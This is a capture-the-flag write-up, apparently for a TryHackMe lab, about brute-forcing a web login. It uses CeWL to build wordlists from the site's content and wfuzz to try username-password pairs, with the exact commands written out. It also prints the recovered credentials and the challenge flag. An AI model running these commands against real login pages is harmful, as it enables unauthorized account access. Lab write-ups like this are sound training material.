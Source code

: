 # Brute Forcing

We'll be learnig how to use the CeWL custom wordd generator that spiders websites to create word lists based on the site's content. Spidering, in the context of web security and penetration testing, refers to the process of automatically navigating and cataloguing a website's content, often to retrieve the site structure, content, and other relevant details. The additional built in functions in this tool are of great help and as it is actively maintained, it stays relevant. 
What we're looking for is a username and password which we use to login in to the website and fetch the flag. You may know that most users while creating a password generally tend to resort to their names or DOB as passwords. This can be a vague way to try explaining what we'll be doing in the challenge as we'll be using the data avaialable on the website to find the correct username and password combination. We'll create two files storing the usernames and passwords.
On giving a random input, the error message was **"Please enter the correct credentials"**

We'll create a file storing the passwords
- **`cewl -d 2 -m 5 -w passwords.txt http://MACHINE_IP --with-numbers`**

  - **`-d 2`** specfies the tool to spider two links deep
  - **`-m 5`** specifies that the password should be of minimum length 5
  - **`-w passwords.txt`** means to write the output into the **passwords.txt** file
  - **`http://MACHINE_IP`** is our target site
  - **`--with-numbers`** is an extension which appends numbers to words
  On reading out the text file, we can see a whole bunch of possible passwords.

![Screenshot (83)](https://github.com/Wixter07/HARSHITH-JTP-2/assets/150792650/1998da7c-ba7a-492a-bf04-55acac671167)

  Now we'll create the file storing the usernames as
  - **`cewl -d 0 -m 5 -w usernames.txt http://MACHINE_IP/team.php --lowercase`**

    - **`-d 0`** specfies the tool to spider zero links deep
    - **`-m 5`** specifies that the password should be of minimum length 5
    - **`-w usernames.txt`** means to write the output into the **usernames.txt** file
    - **`http://MACHINE_IP`** is our target site
    - **`--lowercase`** is custom extension which stores the output values in lower case

Same as before, on reading out the text file, we can see a whole bunch of possible usernames.

![Screenshot (84)](https://github.com/Wixter07/HARSHITH-JTP-2/assets/150792650/f47f7e23-2e2a-402c-80a9-6ced5134d2f5)

    Now we'll try out these two files in combination on the website login portal using **wfuzz** tool as
- **` wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://MACHINE_IP/login.php -d "username=FUZZ&password=FUZ2Z"`**
  - **`-z file,usernames.txt`** loads the usernames list.
  - **`-z file,passwords.txt`** uses the password list generated by CeWL.
  - **`-hs "Please enter the correct credentials"`** hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
  - **`-u http://MACHINE_IP/login.php`** specifies the target site.
  - **`-d "username=FUZZ&password=FUZ2Z"`** provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.


![Screenshot (85)](https://github.com/Wixter07/HARSHITH-JTP-2/assets/150792650/2710b7bf-562d-465a-bbb9-e22ef3a5e130)

And then we get the password as **`isaias:Happiness`**

On entering these detail in the login portal, we get the flag.

![Screenshot (86)](https://github.com/Wixter07/HARSHITH-JTP-2/assets/150792650/bb4730c2-c8da-4fcc-bd22-1d18ed2f7d65)

**`The flag- THM{m3rrY4nt4rct1crAft$}`**

